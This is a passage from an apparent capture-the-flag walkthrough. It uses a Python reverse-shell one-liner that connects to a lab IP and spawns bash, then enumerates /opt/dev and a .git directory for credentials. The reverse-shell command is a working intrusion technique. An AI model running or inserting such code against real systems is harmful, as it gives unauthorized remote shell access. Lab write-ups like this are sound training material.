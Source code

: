 Now we can run the command:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.109.132",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

Now we have the shell:

![[Pasted image 20250110143506.png]]

## Shell as think

Now after enumerating the file system, we see the usually empty `/opt` directory is not empty and it contains a folder called `/dev`.

```
ls -la /opt
total 12
drwxr-xr-x  3 root  root  4096 Jun 21  2023 .
drwxr-xr-x 18 root  root  4096 Dec 22  2023 ..
drwxrwxr-x  3 think think 4096 Jun 21  2023 dev
```

Now checking the `/dev` directory we see an interesting file:

```
ls -la /opt/dev
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git
```

`.git`: this file is very interesting because it can contain very vulnerable data such as credentials or git history which we can find other interesting pieces of data. 
Now checking the contents of the `.git` directory we see the following:

```
ls -la /opt/dev/.git
total 52
drwxrwxr-x 8 think think 4096 Jun 21  2023 .
drwxrwxr-x 3 think think 4096 Jun 21  2023 ..
drwxrwxr-x 2 think think 4096 Jun 21  2023 branches
-rw-rw-r-- 1 think think   21 Jun 21  2023 COMMIT_EDITMSG
-rw-rw-r-- 1 think think  296 Jun 21  2023 config
-rw-rw-r-- 1 think think   73 Jun 21  2023 description
-rw-rw-r-- 1 think think   23 Jun 21  2023 HEAD
drwxrwxr-x 2 think think 4096 Jun 21  2023 hooks
-rw-rw-r-- 1 think think  145 Jun 21  2023 index
drwxrwxr-x 2 think think 4096 Jun 21  2023 info
drwxrwxr-x 3 think think 4096 Jun 21  2023 logs
drwxrwxr-x 7 think think 4096 Jun 21  2023 objects
drwxrwxr-x 4 think think 4096 Jun 21  2023 refs
```
